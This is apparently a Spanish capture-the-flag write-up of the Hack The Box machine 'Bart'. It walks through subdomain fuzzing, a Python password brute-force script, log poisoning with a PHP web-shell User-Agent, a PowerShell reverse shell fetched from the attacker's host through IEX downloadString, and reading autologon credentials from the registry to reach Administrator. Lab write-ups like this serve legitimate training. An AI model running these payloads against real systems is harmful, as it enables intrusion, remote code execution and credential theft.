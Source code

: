 ```yaml
---
layout: post
title: Bart
date: 2022-11-16
categories: ["HTB", "Enumeration", "Log Poisoning", "Pass The Hash"]
thumbnail: "assets/images/Bart.png"
---
```


# Bart [ Hack The Box ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.81 -oG allPorts`
- `nmap -sCV -p80 10.10.10.81 -oN targeted`

`NMAP` nos dice que no ha seguido el redireccionamiento a `http://forum.bart.htb`.

### Inspección #1

Una vez haymos agregado `bart.htb` y `forum.bart.htb` al archivo `/etc/hosts` podemos ver la página sin problema. Nos encontramos en una página de negocios y tecnología revolucionaria, al inspeccionar el código fuente vemos un comentario añadiendo a otro desarrollador y nos dice que no puede añadirlo, ya que el `CSS` se rompe, por lo que lo deja ahí.

No hay nada interesante, pero si nos fijamos vemos que estamos en un subdominio, así
que con WFuzz vamos a enumerar subdominios para descubrir si hay más.

```
wfuzz -w top1million-2000.txt -H "Host: FUZZ.bart.htb" -t 100 10.10.10.81
```

Bien! Gracias a `WFuzz` hemos descubierto otro subdominio (`monitor.bart.htb`)! Nos dirigimos a la página para ver a lo que nos estamos enfrentando. Tenemos ante nosotros un panel `login` de `PHP Server Monitor`, no disponemos de ningún usuario válido y menos de una contraseña, pero vemos un botón para restaurar la contraseña, cuando lo clicamos no nos pide un correo, sino un nombre de usuario, por lo que vamos probando hasta que damos con el usuario `harvey`. En la página principal veíamos varias personas y en el código fuente a `Harvey`, por lo que podíamos intuir lo que había que hacer.

Ahora bien, seguimos sin tener ninguna contraseña, aunque para eso usaremos `CeWL`, una herramienta hecha en `Ruby` que nos permite crear `wordlists` customizadas, en este caso queremos que nos saque una `wordlist` de la página inicial.

- `cewl -w cewl-forum.txt -e -a http://forum.bart.htb`

Bien! Ya tenemos una `wordlist` customizada! Ahora hice un `script` en `Python` para probar todas las contraseñas de ese diccionario.

```
import requests

with open("cewl-forum.txt", "r") as wordlist:
    lines = wordlist.readlines()

    for passwd in lines:
        passwd = str(passwd).replace("\n", "").lower()
        cookies = {"PHPSESSID": "71793v7dsekogj5f3o0seo4341"}
        data = {
        "csrf": "999792d7ce[...]e511694927ca218",
        "user_name": "harvey",
        "user_password": f"{passwd}",
        "action": "login",
        }

        r = requests.post("http://monitor.bart.htb/", cookies=cookies, data=data)
        print(f"Harvey [ {passwd} ] | " + str(len(r.content)))
```

Como vemos en este `script` medimos la longitud de la respuesta, ya que si la contraseña es incorrecta siempre es la misma longitud, en cambio, cuando la longitud haya cambiado significará que la contraseña es correcta. Tras unos minutos hemos podido obtener la contrasña de Harvey (`harvey:potter`)!

### Inspección #2

Una vez estemos dentro del panel veremos varios apartados arriba, nos dirigimos a `Servers` y vemos otro subdominio, vamos a agregarlo al archivo `/etc/hosts`.

Una vez agregado entramos y vemos otro panel `login`, nos disponemos a `fuzzear` la página con `WFuzz` para encontrar archivos con extensión `PHP`.

```
wfuzz dir -u "http://internal-01.bart.htb/simple_chat/FUZZ.php" -w directory-list-2.3-medium.txt
```

Gracias a esto vemos un archivo llamado `register.php`, investigando un poco más sobre `SimpleChat` vemos que es un proyecto de código abierto y está disponible en `GitHub`, por lo que mirando el código vemos que necesitamos dos parámetros (`uname` y `passwd`) y que la petición se tramita mediante `POST`, por lo que nos podemos crear un usuario tramitando una petición con `CURL`.

```
data="uname=black&passwd=password"
curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "$data"
```
Bien! Hemos creado un usuario! Ahora podemos acceder al panel para poder continuar. Es simplemente un chat, vemos mensajes pero no son relevantes, lo importante está en el código fuente, el cual está algo cambiado respecto al original, añadiendo así un pequeño `script`:

```
<div id="log_link">
  <script>
    function saveChat() {
      // Create a serialized object and send to log_chat.php.
      // Once done the XHR request, alert "Done"
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          alert(xhr.responseText);
        }
      }
      xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
      xhr.send(null);
      alert("Done");
    }
  </script>
  <a href="#" onclick="saveChat()">Log</a>
</div>
```

Cuando el usuario clica el link Log ejecuta la función `SaveChat`, la cual hará saltar una ventana diciendo `Done` y luego otra diciendo `1`. Eso es debido a que la función `xhr.open` es llamada con el tercer parámetro `true`, que pone la llamada al modo `async`. El `script` dice `Done` y luego, una vez la petición regresa, la función `xhr.onreadystatechange` es llamada, alertando así del texto con la respuesta.

Si nos vamos manuealmente a la URL veremos un código de estado `1`, pero si cambiamos el nombre de usuario vemos `0`. Hay un parámetro llamado `filename`, el cual tiene como valor `log.txt`, entramos a `http://internal-01.bart.htb/log/log.txt` y vemos que existe, por lo que me hace pensar que se está creando un archivo el cual muestra nuestro `User-Agent`.

Con esto en cuenta nos acordamos del `Log Poisoning` o `Envenenamiento de Registros`, así que vamos a probarlo. Para ello cambiaré mi User-Agent a `<?php phpinfo(); ?>` para que cuando cargue nos interprete el `PHP` y podamos ver la información de `PHP`.

```
import requests

headers = {'User-Agent':'<?php phpinfo(); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', headers=headers)
```

Una vez ejecutado el script nos dirigimos a `http://internal-01.bart.htb/log/phpinfo.php` y podremos ver que la inyección ha salido bien, por lo que ahora podemos crear otro archivo pero que tome el parámetro cmd para ejecutar el comando a nivel de sistema y representar el resultado, para ello cambiaremos el `User- Agent` a `<?php system($_REQUEST['cmd']); ?>`.

Bien! Ya podemos ejecutar comandos a nivel de sistema!

### Shell

Para obtener una Shell me descargué un archivo `PS1` llamado [`Invoke-PowerShellTcp.ps1`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) del
repositorio [`Nishang`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Una vez lo tenía de manera local le añadí al final una línea para poder entablarnos la conexión y me puse en escucha con `NC`.

- `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4444`
- `nc -nlvp 4444`

Bien! Ya estamos preparados para obtener la Shell! De nuevo usaremos `Python` para montarnos un servidor y mandar la petición de una manera más cómoda.

- `python3 -m http.server 80`

```
import requests

cmd = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/Invoke-PowerShellTcp.ps1')"
r = requests.get('http://internal-01.bart.htb/log/black.php?cmd={}'.format(cmd))
```

Bien! Hemos recibido la conexión! Ya estamos en la máquina como `IUSR`!


### Subida de privilegios

Ahora que estamos en la máquina hay que intentar ser administradores, para ello comenzé con pruebas estándar para la subida de privilegios en `Windows`. Tras estar probando encontré credenciales por defecto en los registros de `autologon`.

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```
DefaultDomainName REG_SZ DESKTOP-7I3S68E
DefaultUserName REG_SZ Administrator
DefaultPassword REG_SZ 3130438 f31186fbaf962f407711faddb
```

Para obtener la Shell como `Administrator` edité el `script` que habíamos utilizando anteriormente cambiándole el puerto a `443`, una vez hecho eso me puse en escucha, me monté un servidor en `Python` y pasé a hacer lo siguiente:

```
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -
argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object
Net.WebClient).downloadString('http://10.10.14.15/Shell.ps1') } -Credential $cred -Computer localhost
```

Enhorabuena! Ya estamos como `bart\administrator` en la máquina! Vaya desafío!

